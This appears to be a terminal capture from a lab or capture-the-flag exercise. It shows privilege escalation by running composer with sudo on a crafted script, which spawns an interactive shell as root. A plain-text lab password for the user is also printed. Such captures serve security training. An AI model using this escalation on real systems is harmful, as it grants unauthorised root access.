 ```
$ sudo composer --working-dir=$TF run-script x
[sudo] password for mrb3n: mrb3n_Ac@d3my!

PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# whoami
root
